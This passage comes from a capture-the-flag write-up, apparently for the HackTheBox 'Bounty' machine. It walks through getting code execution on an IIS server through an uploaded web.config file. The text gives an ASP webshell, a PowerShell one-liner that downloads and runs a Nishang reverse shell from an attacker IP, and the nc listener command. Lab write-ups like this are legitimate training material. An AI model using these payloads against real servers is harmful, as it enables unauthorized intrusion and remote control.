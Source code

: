 ```xml
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

With the **ASP** code above if all went great we are gonna see the result of 1+2 outputted.

![Untitled](/HTB/bounty-10.png)

The **ASP** code is executted. 

Let’s change the code to a asp simple **webshell**.

```xml
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Now the website has to show the output of **whoami**.

![Untitled](/HTB/bounty-11.png)

Well we are executing commands as **merlin**, what would happen if we put in a **reverse shell**.

```xml
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/PS.ps1')")
%>
```

The above code executes a **powershell** which runs PS.ps1 script which is a [Nishang](https://github.com/samratashok/nishang) **TCP shell.**

I changed the **Nishang** code putting `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 4444` at the end in order to execute the script.

Now only rests to set a **nc** listener and access to **web.config**.

```powershell
nc -lv 4444
```

Nice we have a **shell**
